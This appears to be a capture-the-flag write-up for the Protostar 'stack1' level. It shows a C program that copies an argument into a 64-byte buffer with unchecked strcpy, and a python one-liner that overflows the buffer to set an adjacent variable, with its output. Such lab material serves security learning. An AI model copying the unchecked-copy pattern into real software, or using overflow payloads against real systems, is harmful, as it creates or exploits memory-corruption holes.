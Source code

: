 # Stack One

This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

Hints
- If you are unfamiliar with the hexadecimal being displayed, "man ascii" is your friend.
- Protostar is little endian

## Source Code

```c++
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

## Writeup

In this code we have a **buffer** of 64 char, that means is a **buffer** of 64 byte.

After this, in the Stack we have the **modified** variable of 4 byte.

We can write 64 char and add at the end the 4 byte of **modified** value.

We need to write **0x61626364** in the **modified** variable. Let's inject it with python (in little endian):

```bash
/opt/protostar/bin/stack1 `python -c "print('A' * 64 + '\x64\x63\x62\x61')"`
```

The output of the program will be:

```bash
user@protostar:/opt/protostar/bin$ /opt/protostar/bin/stack1 `python -c "print('A' * 64 + '\x64\x63\x62\x61')"`
you have correctly got the variable to the right value
```